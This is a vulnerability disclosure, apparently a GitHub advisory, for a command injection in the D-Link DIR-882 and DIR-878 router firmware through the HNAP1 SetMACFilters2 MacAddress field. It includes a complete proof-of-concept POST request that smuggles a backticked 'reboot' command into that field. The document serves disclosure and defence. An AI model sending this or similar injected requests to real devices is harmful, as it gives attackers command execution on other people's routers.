


# D-Link Vulnerability

Vendor:D-Link

Product:DIR_882、DIR_878

Version:DIR_882_FW130B06、DIR_878_FW130B08

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetMACFilters2` function,`MacAddress` is directly passed by the attacker. After that, call the function nvram_safe_set to store this input.

<div  align="center"></div>

In `librcm.so` binary:

In `MACFILTER_run` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"></div>


## PoC

We set `MacAddress` as **`         reboot`** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 630
SOAPAction: "http://purenetworks.com/HNAP1/SetMACFilters2"
X-Requested-With: XMLHttpRequest
HNAP_AUTH: 09534AE66CDE877C75A81A3C192E9762 1727333568750
Accept: */*
Content-Type: text/xml; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/UsbSharing.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=LPLnELLQ
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetMACFilters2 xmlns="http://purenetworks.com/HNAP1/"><Enabled>true</Enabled>
      <IsAllowList>false</IsAllowList>
      <MACList>
        <MACInfo>
          <MacAddress>`         reboot`</MacAddress>
          <DeviceName>pjqwudi</DeviceName>
          <ScheduleName>Always</ScheduleName>
          <Status>1</Status>
        </MACInfo>
      </MACList></SetMACFilters2></soap:Body></soap:Envelope>
```


## Result

The router will reboot.
